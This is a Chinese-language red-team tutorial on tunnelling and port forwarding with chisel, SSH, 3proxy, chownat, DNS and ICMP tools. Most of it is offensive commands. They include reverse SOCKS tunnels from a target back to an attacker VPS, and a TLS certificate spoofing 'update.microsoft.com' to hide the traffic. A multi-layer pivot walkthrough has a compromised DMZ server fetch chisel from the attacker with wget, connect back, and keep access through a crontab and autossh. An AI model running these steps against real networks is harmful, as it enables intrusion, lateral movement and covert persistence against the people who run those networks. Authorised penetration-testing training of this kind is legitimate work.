

# 02-内网隧道与端口转发

ArchStrike工具组：chisel, openssh, 3proxy, chownat, proxychains, nmap
预计学习时间：4-6小时 | 难度：中级到高级

## 目录

- [[#一、内网隧道与端口转发概述|一、内网隧道与端口转发概述]]
- [[#二、Chisel 万能HTTP隧道|二、Chisel - 万能HTTP隧道]]
 - [[#2.1 基础概念|2.1 基础概念]]
 - [[#2.2 内网穿透实战|2.2 内网穿透实战]]
 - [[#2.3 高级用法|2.3 高级用法]]
- [[#三、SSH 端口转发|三、SSH 端口转发 - 渗透测试必备技能]]
 - [[#3.1 本地端口转发|3.1 本地端口转发 (-L)]]
 - [[#3.2 远程端口转发|3.2 远程端口转发 (-R)]]
 - [[#3.3 动态端口转发|3.3 动态端口转发 (-D)]]
 - [[#3.4 SSH转发安全加固|3.4 SSH转发安全加固]]
- [[#四、3proxy 快速代理|四、3proxy - 快速搭建代理服务器]]
- [[#五、Chownat NAT穿透|五、Chownat - NAT穿透先锋]]
- [[#六、综合实践 多层内网穿透|六、综合实践 - 多层内网穿透]]
- [[#七、高级隧道技术补充|七、高级隧道技术补充]]

## 一、内网隧道与端口转发概述

内网隧道和端口转发是红队渗透测试的核心技术，用于穿透防火墙、NAT和网络隔离。



工具清单：

| 工具 | 功能 | 特点 |
|------|------|------|
| chisel | HTTP隧道 | 单连接多隧道，防火墙友好 |
| OpenSSH | SSH端口转发 | 最可靠，三种模式 |
| 3proxy | 轻量代理服务器 | 快速搭建SOCKS/HTTP代理 |
| chownat | NAT穿透 | 打洞绕过NAT限制 |

## 二、Chisel - 万能HTTP隧道

Chisel 通过单一HTTP连接传输数据，使用HTTP进行隧道封装（可选WebSocket），能够穿越大多数防火墙和代理服务器。核心特点：单个HTTP连接承载多个隧道，支持正向和反向端口转发，使用SSH协议进行身份验证和数据加密，防火墙友好（流量伪装为普通HTTP/HTTPS）。

```bash
sudo pacman -S chisel
```

### 2.1 基础概念

- **服务端(Server)**：在可被访问的机器上运行，等待客户端连接
- **客户端(Client)**：主动连接服务端，请求建立隧道
- **正向隧道(Forward)**：服务端开放端口，流量转发到客户端内部网络。类似SSH远程转发(-R)。
- **反向隧道(Reverse)**：客户端连接服务端后，在服务端开放端口。这是最常见的穿透场景。

### 2.2 内网穿透实战

场景：攻击机在外网，目标机在内网。需要通过目标机访问内网资源。

**(1) 在攻击机（或VPS）上启动chisel服务端：**

```bash
chisel server -p 8080 --reverse
# -p 8080：监听8080端口（可改为80或443伪装Web流量）
# --reverse：允许客户端创建反向隧道
```

实战建议：使用80或443端口伪装成正常Web服务；配合Nginx反代可使流量更难被检测。

**(2) 在目标机（内网）上运行chisel客户端：**

```bash
# 基本反向SOCKS代理
chisel client 192.168.1.100:8080 R:1080:socks
# R:1080:socks：在攻击机1080端口开放SOCKS5代理

# 反向端口转发
chisel client 攻击机IP:8080 R:2222:127.0.0.1:22
# 含义：攻击机2222端口 → 目标机127.0.0.1:22
```

**(3) 正向隧道：**

```bash
# 服务端
chisel server -p 8080

# 客户端（希望暴露本机SSH端口）
chisel client 服务端IP:8080 2222:127.0.0.1:22
# 含义：服务端2222端口 → 客户端127.0.0.1:22
```

### 2.3 高级用法

**(1) 使用TLS加密：**

```bash
# 生成自签名证书
openssl req -new -newkey rsa:2048 -days 365 -nodes -x509 \
 -keyout chisel.key -out chisel.crt \
 -subj "/CN=update.microsoft.com"

# 服务端使用TLS
chisel server -p 443 --reverse --tls-key chisel.key --tls-cert chisel.crt

# 客户端连接
chisel client --tls-skip-verify 攻击机IP:443 R:1080:socks
```

**(2) 使用HTTP认证：**

```bash
# 服务端
chisel server -p 8080 --reverse --auth "redteam:Str0ngP@ss"

# 客户端
chisel client --auth "redteam:Str0ngP@ss" 攻击机IP:8080 R:1080:socks
```

**(3) 多重端口转发（一条连接建立多个隧道）：**

```bash
chisel client 攻击机IP:8080 \
 R:1080:socks \
 R:2222:127.0.0.1:22 \
 R:3389:192.168.1.50:3389 \
 R:8080:192.168.1.100:80
# 好处：只需一条HTTP连接，所有隧道复用同一条加密通道
```

## 三、SSH 端口转发 - 渗透测试必备技能

SSH提供三种转发模式，可在加密的SSH连接上传输任意TCP流量。

### 3.1 本地端口转发 (-L)

语法：`ssh -L <本地端口>:<目标地址>:<目标端口> <SSH用户>@<SSH主机>`

场景：本地机器无法直接访问target_host，但可以通过SSH访问jump_host，而jump_host可以访问target_host。

```bash
ssh -L 8080:internal_host:80 user@jump_host
# 访问本机8080 = 访问internal_host:80

# 多端口转发
ssh -L 8080:web.internal:80 \
 -L 3306:db.internal:3306 \
 -L 3389:rdp.internal:3389 \
 user@jump_host
```

实战场景：访问内网Web应用

```
攻击机：192.168.1.100 → 跳板机：10.0.0.5 → 内网Web：172.16.0.100:80

(1) ssh -L 8080:172.16.0.100:80 user@10.0.0.5
(2) 浏览器访问 http://127.0.0.1:8080
(3) 流量路径：本机8080 → SSH加密 → 10.0.0.5 → 172.16.0.100:80
```

### 3.2 远程端口转发 (-R)

语法：`ssh -R <远程端口>:<目标地址>:<目标端口> <SSH用户>@<SSH主机>`

场景：攻击机在外网，目标机在内网且可以出站SSH连接。通过目标机主动连接攻击机，在攻击机上开放服务。

```bash
# 在目标机（内网机器）上执行
ssh -R 4444:localhost:22 user@attacker_vps
# 攻击机4444端口 → 目标机22端口

# 内网穿透实战
ssh -R 1080:localhost:3389 user@攻击机IP

# 再添加对内网其他机器的访问
ssh -R 3389:192.168.1.50:3389 user@攻击机IP
```

持久化反向shell（autossh）：

```bash
autossh -M 20000 -N -R 4444:localhost:22 user@攻击机IP
# -M 20000：监控端口
# autossh可以自动重连，确保隧道持续可用
```

### 3.3 动态端口转发 (-D)

语法：`ssh -D <本地SOCKS端口> <SSH用户>@<SSH主机>`

在最常用的模式，创建本地SOCKS代理，通过SSH服务器访问其能够到达的任何网络。

```bash
# 建立SOCKS代理
ssh -D 1080 user@10.0.0.5

# 静默模式（不打开shell，只做转发）
ssh -f -N -D 1080 user@jump_host
# -f：后台运行，-N：不执行远程命令

# 配置proxychains使用
# /etc/proxychains.conf: socks5 127.0.0.1 1080

# 通过代理访问内网
proxychains nmap -sT -Pn 172.16.0.0/24
proxychains firefox
proxychains smbclient -L 172.16.0.50
```

### 3.4 SSH转发安全加固

```bash
# (1) 使用密钥认证
ssh-copy-id user@jump_host

# (2) SSH连接保活 (~/.ssh/config)
Host *
 ServerAliveInterval 60
 ServerAliveCountMax 3

# (3) SSH跳板机ProxyJump (~/.ssh/config)
Host internal_host
 HostName 172.16.0.100
 User admin
 ProxyJump user@jump_host:22
# 使用：ssh internal_host (自动通过jump_host中转)
```

服务器端配置 (`/etc/ssh/sshd_config`)：

```bash
AllowTcpForwarding yes # 允许TCP转发
GatewayPorts yes # 允许远程转发绑定到0.0.0.0
PermitOpen 127.0.0.1:22 # 限制只能转发到特定地址
```

## 四、3proxy - 快速搭建代理服务器

3proxy是一个轻量级的代理服务器，支持HTTP/HTTPS/SOCKS/POP3/FTP等多种代理协议。

```bash
sudo pacman -S 3proxy
```

### 4.1 基础配置

配置文件 `/etc/3proxy/3proxy.cfg`：

```bash
nserver 8.8.8.8
nserver 8.8.4.4

log /var/log/3proxy/3proxy.log D
nscache 65536
timeouts 1 5 30 60 180 1800 15 60

users user1:CL:pass1
users user2:CL:pass2

auth strong
socks -p1080
proxy -p3128
```

### 4.2 快速启动SOCKS代理

```bash
# 一行命令启动SOCKS5代理
3proxy socks5 -p1080

# 带认证的SOCKS5代理
3proxy socks5 -p1080 -s"-a" -l"/var/log/3proxy.log"

# 在后台运行
nohup 3proxy socks5 -p1080 &
```

### 4.3 实战场景

**(1) 在肉鸡上搭建SOCKS代理：**

```bash
scp /usr/bin/3proxy user@target:/tmp/
ssh user@target "/tmp/3proxy socks5 -p3128 &"
# 然后在proxychains中添加: socks5 <target_ip> 3128
```

**(2) 搭建多协议代理服务器：**

```bash
# /etc/3proxy/3proxy.cfg
daemon
nserver 8.8.8.8
log /var/log/3proxy/3proxy.log

auth iponly
allow * 127.0.0.1,192.168.0.0/16
socks -p1080
proxy -p3128
tcppm -p8443 127.0.0.1:22
# 同时提供SOCKS(1080)和HTTP(3128)代理 + 端口映射
```

## 五、Chownat - NAT穿透先锋

chownat采用"同时连接"技术实现NAT穿透：客户端和服务器同时互相发起连接，NAT设备将两者视为各自发起的出站连接，从而在两个NAT后面的机器之间建立通信。

```bash
# 服务端模式
chownat -s 8080 -d 本机SSH端口22

# 客户端模式
chownat -c 攻击机IP:8080 -d 本地映射端口2222

# 连接建立后，客户端连接 127.0.0.1:2222 即可访问服务端的22端口
```

局限性：需要两个方向都能出站，可靠性低于SSH/Chisel，连接建立成功率取决于NAT类型。

## 六、综合实践 - 多层内网穿透

网络拓扑：
- 攻击机：192.168.1.100（外网）
- Web服务器：10.0.0.5（DMZ，已获取SSH权限）
- 内网数据库：172.16.0.50:3306
- 内网文件服务器：172.16.0.60:445

Step 1: 通过SSH建立第一层动态转发

```bash
ssh -f -N -D 1080 root@10.0.0.5
# 在攻击机本地1080端口创建SOCKS代理，流量通过Web服务器中转
netstat -tlnp | grep 1080
```

Step 2: 配置proxychains指向第一层SOCKS代理

```bash
# /etc/proxychains.conf
dynamic_chain
proxy_dns
[ProxyList]
socks5 127.0.0.1 1080
```

Step 3: 使用proxychains扫描内网

```bash
proxychains nmap -sT -Pn -F 172.16.0.0/24
# 通过Web服务器扫描整个172.16.0.0/24网段
```

Step 4: 将chisel上传到Web服务器建立第二层隧道

```bash
# 在攻击机启动chisel服务端
chisel server -p 8080 --reverse

# 在Web服务器上执行
ssh root@10.0.0.5 "wget http://192.168.1.100:8000/chisel -O /tmp/chisel && chmod +x /tmp/chisel"
ssh root@10.0.0.5 "/tmp/chisel client 192.168.1.100:8080 R:2080:socks"
# 在攻击机2080端口创建第二层SOCKS代理
```

Step 5: 配置proxychains使用chisel代理

```bash
# /etc/proxychains.conf
[ProxyList]
socks5 127.0.0.1 2080

# 验证
proxychains curl -s http://172.16.0.50:3306
proxychains smbclient -L //172.16.0.60
```

Step 6: 通过多层隧道访问数据库

```bash
proxychains mysql -h 172.16.0.50 -u root -p
proxychains sqlmap -u "http://172.16.0.50/admin.php" --dbs
```

Step 7: 保持持久化

```bash
# 在Web服务器添加crontab自动重连
*/5 * * * * /tmp/chisel client 攻击机IP:8080 R:2080:socks

# 使用autossh保持SSH隧道
autossh -M 20000 -f -N -D 1080 root@10.0.0.5

# 使用3proxy在Web服务器搭建代理
ssh root@10.0.0.5 "3proxy socks5 -p3128 &"
# proxychains中添加: socks5 10.0.0.5 3128
```

## 七、高级隧道技术补充

### 7.1 DNS隧道（iodine/DNScat2）

当HTTP/HTTPS被严格限制时使用：

```bash
# iodine
# 服务端（攻击机，需要域名NS记录指向自己）
iodined -f -P password 10.0.0.1 tunnel.example.com
# 客户端（目标机）
iodine -f -P password 攻击机IP tunnel.example.com

# DNScat2
# 服务端
dnscat2-server yourdomain.com
# 客户端
./dnscat yourdomain.com
```

### 7.2 ICMP隧道（ptunnel）

```bash
# 服务端（攻击机）
ptunnel -p 代理服务器IP -lp 1080 -da 目标IP -dp 22
# 客户端（目标机）
ptunnel -c 攻击机IP -lp 22 -da 跳板机IP -dp 1080
```

### 7.3 应用层隧道总结

| 协议 | 隐蔽性 | 速度 | 稳定性 | 适用场景 |
|------|--------|------|--------|----------|
| SSH | 中 | 高 | 高 | 有SSH权限时首选 |
| HTTP | 高 | 高 | 高 | 严格出站策略 |
| DNS | 极高 | 低 | 中 | HTTP被阻时 |
| ICMP | 高 | 低 | 低 | 仅ICMP允许时 |
| SMB | 高 | 中 | 中 | Windows域环境 |

---

总结：内网隧道和端口转发是红队渗透测试的核心技术。优先使用SSH（简单可靠），防火墙限制时使用Chisel（伪装HTTP），HTTP被阻时使用DNS隧道（最后手段）。始终保持多层冗余隧道，防止单点失效。注意OPSEC，使用加密和认证保护隧道。

上一教程：[[01-代理与隐蔽通信|01-代理与隐蔽通信]]

[[../总目录与快速查询|← 返回总目录]]
